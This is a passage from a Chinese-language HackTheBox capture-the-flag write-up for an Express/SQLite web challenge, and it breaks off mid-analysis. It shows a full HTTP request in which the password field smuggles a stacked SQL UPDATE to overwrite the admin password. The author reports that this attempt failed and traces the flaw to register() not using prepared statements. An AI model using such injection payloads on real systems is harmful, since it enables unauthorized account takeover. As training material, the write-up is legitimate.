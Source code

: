 4. 在本地运行

   * 检查sqlite文件，发现由空文件变成了有内容，且存在了admin的账号密码

     ```sqlite
     CREATE TABLE users (
                     id         INTEGER NOT NULL PRIMARY KEY AUTOINCREMENT,
                     username   VARCHAR(255) NOT NULL UNIQUE,
                     password   VARCHAR(255) NOT NULL
     adminba325315f6b500a7dc7d3b89623614b4bf1f05d855a4993c3a1bd3ae40c8fb23
     ```

   * 访问主页，发现与访问Hackthebox官方的页面不一样，可以正常获取用户的IP、地区、国家、天气

     ![image-20210514104351989](https://monkeydatabase.github.io/img/image-20210514104351989.png)
     
   * 在本地调用注册接口是可以调通的，不过自己注册的账号并不是admin账号，所以在登录时会返回You are not admin，因为无法注册admin账号，所以猜测是通过SQL注入获取admin权限
   
   * 试图通过对注册接口进行堆叠注入攻击来改动admin密码
   
     * 请求
   
       ```http
       POST /register HTTP/1.1
       Host: 127.0.0.1
       Content-Type: application/x-www-form-urlencoded
       Content-Length: 106
       
       username=ASDFADFADFADSADF&password=');UPDATE users SET `password` = '5644646554' WHERE username='admin'-- 
       ```
   
     * 响应
   
       ```http
       HTTP/1.1 200 OK
       X-Powered-By: Express
       Content-Type: application/json; charset=utf-8
       Content-Length: 37
       ETag: W/"25-v5J3d5iBeDcML9FBwd6qt6nQx9k"
       Date: Fri, 14 May 2021 08:44:48 GMT
       Connection: close
       
       {"message":"Successfully registered"}
       ```
   
     * 检查Sqlite数据库，发现admin密码未被更改
   
     * 应该是不支持堆叠注入攻击
   
   * 分析database.js
   
     * migrate()：初始化表结构并生成admin账号，admin密码为64位随机字符串
     * register()：将用户提交的用户名和密码插入数据库，没有使用预编译语句
     * isAdmin()：首先预编译语句，再将username和password填入进行查询，如果获取到一行记录且记录的username为admin返回true，否则返回false
   
   * 思路1
   